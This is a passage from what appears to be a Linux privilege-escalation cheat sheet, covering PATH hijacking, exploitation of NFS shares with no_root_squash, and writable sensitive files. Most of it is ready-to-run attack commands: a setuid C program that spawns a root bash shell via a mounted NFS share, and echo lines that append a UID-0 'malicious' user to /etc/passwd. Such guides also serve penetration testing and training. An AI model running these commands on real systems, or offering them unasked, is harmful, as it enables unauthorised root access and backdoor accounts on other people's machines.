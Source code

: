 3. Modify the PATH to include your directory:
```bash
export PATH=/tmp:$PATH
```

4. Wait for the vulnerable script to be executed, or execute it if you have permission.

## NFS Shares

Exploiting misconfigured NFS shares:

1. Check for NFS shares:
```bash
# On the target
cat /etc/exports
showmount -e localhost

# From an attacker machine
showmount -e target_ip
```

2. Look for shares with `no_root_squash` or `no_all_squash` options.

3. Mount the share and exploit:
```bash
# On the attacker machine
mkdir /tmp/nfs
mount -t nfs target_ip:/shared/folder /tmp/nfs
cd /tmp/nfs
echo 'int main() { setuid(0); setgid(0); system("/bin/bash"); return 0; }' > privesc.c
gcc privesc.c -o privesc
chmod +s privesc
# On the target
/shared/folder/privesc
```

## Weak File Permissions

Check for writable sensitive files:

1. System configuration files:
```bash
find /etc -writable -type f 2>/dev/null
```

2. /etc/passwd writable (rare but worth checking):
```bash
ls -la /etc/passwd

# If writable, add a new root user
echo 'malicious:x:0:0::/root:/bin/bash' >> /etc/passwd
echo 'malicious::0:0::/root:/bin/bash' >> /etc/passwd
echo 'malicious:$1$xyz$SomeHashedPasswordHere:0:0::/root:/bin/bash' >> /etc/passwd

# Generate password hash
openssl passwd -1 -salt xyz password123
```
